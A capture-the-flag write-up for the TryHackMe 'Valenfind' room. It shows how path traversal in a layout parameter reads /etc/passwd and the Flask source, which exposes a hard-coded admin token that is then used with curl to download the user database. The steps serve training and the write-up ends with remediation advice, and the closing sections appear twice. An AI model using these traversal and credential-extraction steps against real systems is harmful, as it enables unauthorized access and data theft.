# TryHackMe - Valenfind CTF Writeup

> **Room:** [Valenfind] (https://tryhackme.com/room/lafb2026e10)
> **Difficulty:** Medium
> **Description:** "Love at first breach"


## Overview 

Let's root the Valenfind room in TryHackMe. The room involves web enumeration, discovering a Local File Inclusion (LFI) from exposed frontend comments, and exploiting an admin API to leak the database.



---

## Enumeration

### Initial Nmap Scan

Let's start with port scanning to see if there's any open port: 



```bash
nmap -Pn -sV <TARGET IP>
```

**Results:** 
- Port 22: SSH (OpenSSH)
- Port 5000: linked to http (usually used by web site coded with python flask) and a server Werkzeug httpd

Two services running - let's investigate the web application on port 5000 first.

---

## Web Application Analysis

### Initial Discovery

Visiting `http://10.48.188.6:5000` reveals a dating application called "Valenfind":



### Registration

I created an account to have a look on the inside.



### Dashboard Exploration 

After logging in, I was presented with a profiles dashboard:



Several user profiles were visible:
- `romeo_montague` (14 Likes)
- `casanova_official` (6 Likes)
- And others...

One profile that stood out immediately was **cupid** - likely the admin or system account.


---

## Discovering the LFI Vulnerability

### Intercepting Requests with Burp Suite

I fired up Burp Suite to analyze the application's behavior. When viewing profile pages, I noticed requests to `/profile/cupid`.

While inspecting the profile page response, I discovered a **very interesting JavaScript comment** in the source code:



```JavaScript
// Feature: Dynamic Layout Fetching [cite: 15]
// Vulnerability: 'layout' parameter allows LFI [cite: 16]
fetch(`/api/fetch_layout?layout=${layoutName}`)
.then(r => r.text())
.then(html => {
const bioText = "I keep the database secure. No peeking."; [cite: 20]
const username = "cupid";
```

**Jackpot!** The developer literally left a comment saying *"Vulnerability: 'layout' parameter allows LFI"*

The `loadTheme()` function is triggered whenever we change the theme, and it sends the `layout` parameter to `/api/fetch_layout`. This is a textbook Local File Inclusion vulnerability.


---

## Exploiting the LFI 

### Testing the Vulnerability

I sent the request to Burp Repeater to test the LFI: 




**Original request:**
```
GET /api/fetch_layout?layout=theme_classic.html HTTP/1.1
```

**Modified to test LFI:**
```
GET /api/fetch_layout?layout=../../../../../../etc/passwd HTTP/1.1
```



**Success!** The `/etc/passwd` file was returned, confirming the LFI vulnerability works.


### Finding the Application Path

To read the Flask application source code, I needed to find its location on the filesystem. I used `/proc/self/cmdline` to discover this:



Perfect! The application is located at `/opt/Valenfind/app.py`.


### Initial Attempt (Failed)

I attempted to read the source code:



```
GET /api/fetch_layout?layout=/opt/Valenfind/app.py HTTP/1.1
```

**Response:**
```
Error loading theme layout: embedded null byte
```

### The Null Byte Problem

The error message was confusing at first. After investigation, I realized that when I copy-pasted the path from the `/proc/self/cmdline` response, **a null byte character was included** (null bytes separate arguments in cmdline).

I checked the Hex view in Burp Suite and found the hidden null byte. After removing it and typing the path manually, the request worked!

---

## Source Code Analysis

### Key Findings



The source code revealed several critical pieces of information:

**1. Admin API Key:**
```python
ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_X0X0"
```

**2. Database Name:**
```python
DATABASE = 'cupid.db'
```

**3. Protected Admin Endpoint:**



```python
@app.route('/api/admin/export_db')
def export_db():
    auth_header = request.headers.get('X-Valentine-Token')
    
    if auth_header == ADMIN_API_KEY:
        try:
            return send_file(DATABASE, as_attachment=True,
                           download_name='valenfind_leak.db')
        except Exception as e:
            return error()
    else:
        return jsonify({"error": "Forbidden", 
                       "message": "Missing or Invalid Admin Token"}), 403
```

This route allows us to download the entire database if we provide the correct `X-Valentine-Token` header!

---


## Database Extraction

### Using the Admin API

With the admin token in hand, I used curl to download the database:



```bash
curl -H "X-Valentine-Token: CUPID_MASTER_KEY_2024_X0X0" \
  http://10.48.188.6:5000/api/admin/export_db \
  --output cupid.db
```

**Success!** The database file was downloaded as `cupid.db`.

---


## Flag Extraction

### Opening the Database

I opened the SQLite database to examine its contents:

```bash
sqlite3 cupid.db
```

### Finding the Flag



The `users` table contained all user accounts, including the coveted **cupid** account:

| id | username | password | real_name | email | phone_number | address |
|----|----------|----------|-----------|-------|--------------|---------|
| 8 | cupid | admin_root_x99 | System Administrator | cupid@internal.cupid | 555-0000-ROOT | **FLAG: ...** |

**Flag Found:** `THM{...}` (visible in the address field of the cupid user)


---


## Attack Chain Summary

1. **Enumeration** → Discovered Flask application on port 5000
2. **Registration** → Created account to access the application
3. **Source Code Discovery** → Found JavaScript comment revealing LFI vulnerability
4. **LFI Exploitation** → Tested with `/etc/passwd`, confirmed vulnerability
5. **Path Discovery** → Used `/proc/self/cmdline` to find application path
6. **Source Code Extraction** → Read `app.py` via LFI to discover admin credentials
7. **Database Download** → Used admin API key to export the SQLite database
8. **Flag Capture** → Extracted flag from cupid's user record

---


## Key Takeaways

1. **Developer Comments Can Be Dangerous** - The JavaScript comment literally told us about the LFI vulnerability. Never leave debug comments in production code!

2. **LFI is Powerful** - Once you have LFI, you can often escalate to RCE or credential disclosure by reading sensitive files

3. **Null Bytes Are Tricky** - When working with `/proc/self/cmdline`, remember that arguments are null-terminated. Always check the hex view if copy-paste isn't working

4. **Hardcoded Secrets = Bad** - The admin API key was hardcoded in the source code. Secrets should always be stored in environment variables or secret management systems

5. **Defense in Depth** - Even if the LFI existed, proper input validation and path sanitization could have prevented the exploit


---

## Tools Used

- `nmap` - Port scanning and service enumeration
- `Burp Suite` - Request interception and manipulation
- `curl` - API interaction and file download
- `sqlite3` - Database inspection

---

## Remediation

For developers and defenders:

1. **Input Validation**: Never trust user input. Whitelist allowed files/paths rather than trying to blacklist malicious ones

2. **Remove Debug Comments**: Strip all debug comments and developer notes before deploying to production

3. **Secret Management**: Use environment variables or dedicated secret management solutions (HashiCorp Vault, AWS Secrets Manager, etc.)

4. **Principle of Least Privilege**: The web application shouldn't have read access to arbitrary files on the filesystem

5. **Content Security Policy**: Implement CSP headers to mitigate the impact of code injection vulnerabilities

## Tools Used

- `nmap` - Port scanning and service enumeration
- `Burp Suite` - Request interception and manipulation
- `curl` - API interaction and file download
- `sqlite3` - Database inspection

---

## Remediation

For developers and defenders:

1. **Input Validation**: Never trust user input. Whitelist allowed files/paths rather than trying to blacklist malicious ones

2. **Remove Debug Comments**: Strip all debug comments and developer notes before deploying to production

3. **Secret Management**: Use environment variables or dedicated secret management solutions (HashiCorp Vault, AWS Secrets Manager, etc.)

4. **Principle of Least Privilege**: The web application shouldn't have read access to arbitrary files on the filesystem

5. **Content Security Policy**: Implement CSP headers to mitigate the impact of code injection vulnerabilities

---

*Writeup by **Azarkovich***

*Date: February 20, 2026*